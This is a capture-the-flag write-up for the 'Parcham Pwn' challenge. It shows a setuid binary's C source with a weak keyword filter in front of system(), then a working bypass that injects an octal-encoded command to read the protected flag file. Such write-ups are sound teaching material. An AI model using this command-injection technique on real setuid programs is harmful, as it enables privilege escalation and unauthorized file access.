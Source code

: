 # Parcham Pwn first challenge

After logging into the server we see there are two users

```
user1@parcham-os-1:~$ ls /home/

flag  user1
```

If we check the flag user's home directory we see there is a flag file named flag.txt\
it's owner user and group is flag. so we can not read the file


Let's check flag's home directory

```
user1@parcham-os-1:/home/flag$ ls -l 
total 28
-r-sr-xr-x 1 flag flag 17112 Jan 26 22:14 access
-r--r--r-- 1 flag flag  1143 Jan 26 21:15 access.c
-r--r----- 1 flag flag    42 Jan 26 21:21 flag.txt

```


we have a access binary with suid enabled\
which indicates that the effective user of that is flag user\
So if we run code binary with user1 we actually are running it with flag user (because of suid bit set for it's owner flag user)


Let's take a look at access.c

```
user1@parcham-os-1:/home/flag$ cat access.c 
#include <sys/types.h>
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <strings.h>
#include <string.h>

char *gen_cmd(int argc, const char **argv){
        size_t total_size = 1;
        for(int it = 1; it < argc; it++){
                total_size+= strlen(argv[it]);
        }
        char *ret = malloc(total_size);
        total_size = 0;
        for(int it = 1; it < argc; it++){
                size_t len = strlen(argv[it]);
                memcpy(ret+total_size, argv[it], len); 
                total_size+= len;
                ret[total_size] = ' ';
                total_size++;
        }
        ret[total_size] = '\0';
        return ret;
}

int filter(const char *cmd){
        int valid = 1;
        valid &= strstr(cmd, "*") == NULL;
        valid &= strstr(cmd, "sh") == NULL;
        valid &= strstr(cmd, "/") == NULL;
        valid &= strstr(cmd, "home") == NULL;
        valid &= strstr(cmd, "parcham") == NULL;
        valid &= strstr(cmd, "busybox") == NULL;
        valid &= strstr(cmd, ".") == NULL;
        valid &= strstr(cmd, "$") == NULL;
        valid &= strstr(cmd, "flag") == NULL;
        valid &= strstr(cmd, "txt") == NULL;
        return valid;
}


int main(int argc, const char **argv){
        setreuid(UID, UID);
        char *cmd = gen_cmd(argc, argv);
        if (!filter(cmd)){
                exit(-1);
        }
        setenv("PATH", "", 1); 
        system(cmd);
}
```

gen_cmd function just malloc some memory space for our input and concatinate all of them together\
main function sets UID and grab our input then pass it to filter function\
after that set PATH variable to "" and after that it runs our input\
(we know this command now is running as flag user because of suid bit enabled)


so let's check the binary with some input
```
user1@parcham-os-1:/home/flag$ ./access ls
sh: ls: No such file or directory
```

because of setting path variable to "" so we have no access to our commands\
also if we use like this
```
user1@parcham-os-1:/home/flag$ ./access /usr/bin/ls
user1@parcham-os-1:/home/flag$ 
```

we get no result because of filter function

but we also can execute some limited commands with linux built-in commands\
because we can't use flag and txt keywords and other important characters I used octal encoding
So I used printf and backticks and octal encoding for this

Let's go step by step\
we wanna run this command
```
/usr/bin/cat /home/flag/flag.txt
```

1) First encode this with octal encoding
```
/usr/bin/cat /home/flag/flag.txt -> 57 165 163 162 57 142 151 156 57 143 141 164 40 57 150 157 155 145 57 146 154 141 147 57 146 154 141 147 56 164 170 164
```

2) Second use printf to print this octal ascii's in raw format
```
user1@parcham-os-1:/home/flag$ printf "%0b" "\57\165\163\162\57\142\151\156\57\143\141\164\40\57\150\157\155\145\57\146\154\141\147\57\146\154\141\147\56\164\170\164\12"
/usr/bin/cat /home/flag/flag.txt
user1@parcham-os-1:/home/flag$ 
```

3) Thirst use backticks \`\` to execute this command\
(Don't forget to escape backticks characters. otherwise it will first execute the output then pass it to access binary)
```
./access \`'printf "%0b" "\57\165\163\162\57\142\151\156\57\143\141\164\40\57\150\157\155\145\57\146\154\141\147\57\146\154\141\147\56\164\170\164\12"'\`
parcham{bbe147934d55c3695b037b259fed8eca}
```

Finish\
by KRypton.
